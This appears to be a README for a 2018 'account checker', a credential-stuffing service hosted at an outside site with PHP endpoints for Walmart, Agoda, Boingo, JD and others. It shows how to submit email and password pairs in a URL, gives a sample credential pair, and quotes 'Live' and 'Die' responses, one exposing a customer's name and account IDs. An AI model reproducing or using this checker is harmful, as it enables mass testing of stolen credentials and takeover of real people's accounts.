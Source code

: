 # api account Checker 2018

Link : http://nblh.site/api/

isi file api
agoda.php
boingo.php
c9.php
indomog.php
jd.php
utm.php
walmart.php



Tambahkan ?email= (required). Email &pwd= (required). Password

Example : http://nblh.site/walmart.php?email=nblh.ayu@gmail.com&pwd=cintaku


Live : {"status":"OK","payload":{"firstName":"Robyn","lastName":"Williams","cid":"f225c12d-ebcb-6772-e044-001517f43a86","omsCustomerId":"83251640","customerId":"f225c12d-ebcb-6772-e044-001517f43a86","subscribed":false}}

Die : {"code":"user_auth_fail","error":{"alertType":"error","message":"Your password and email do not match. Please try again or Reset Your Password."}}
